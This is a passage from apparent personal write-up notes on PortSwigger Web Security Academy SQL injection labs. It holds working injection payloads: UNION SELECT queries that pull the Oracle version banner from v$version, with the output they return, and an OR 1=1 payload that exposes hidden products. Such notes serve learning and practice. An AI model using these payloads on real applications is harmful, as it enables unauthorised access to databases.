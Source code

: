 !!! tip
    I failed quite a bit on this until I clicked the 'hint' and learned that every select on ORACLE needs a from stmt. 

```
// determine how many columns are being returned (2)
/filter?category=Gifts' ORDER BY 2 --

// confirm that both columns are compatible with strings (using built-in table named `dual`)
/filter?category=Gifts' UNION SELECT 'a','a' from dual --

// now let's start doing something
/filter?category=Gifts' UNION SELECT version FROM v$version --

// query the banner
/filter?category=Gifts' UNION SELECT BANNER,'a' from v$version --
```

And that produces the solution:

```
CORE 11.2.0.2.0 Production
a
NLSRTL Version 11.2.0.2.0 - Production
a
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
a
PL/SQL Release 11.2.0.2.0 - Production
a
TNS for Linux: Version 11.2.0.2.0 - Production
a
```

## :material-gauge-empty: Vulnerability in WHERE clause allowing retrieval of hidden data

!!! question
    This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

    `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

    To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

This is a simple challenge to introduce you to the idea of SQL injection. Given a site such as https://acd01f0d1f5c2eb5c0cc51a2007a0016.web-security-academy.net/ you can view differenct product categories which are controlled by the URL (e.g. `/filter?category=Pets`). A simple SQL injection attack added to the end (`/filter?category=' OR 1=1 --`) solves the challenge by telling the SQL server to return all products with no category set or where 1=1 (which always evaluates to True). Adding the `--` at the end comments out any remainder of the SQL statment in the application code.

## :material-gauge-empty: Vulnerability allowing login bypass

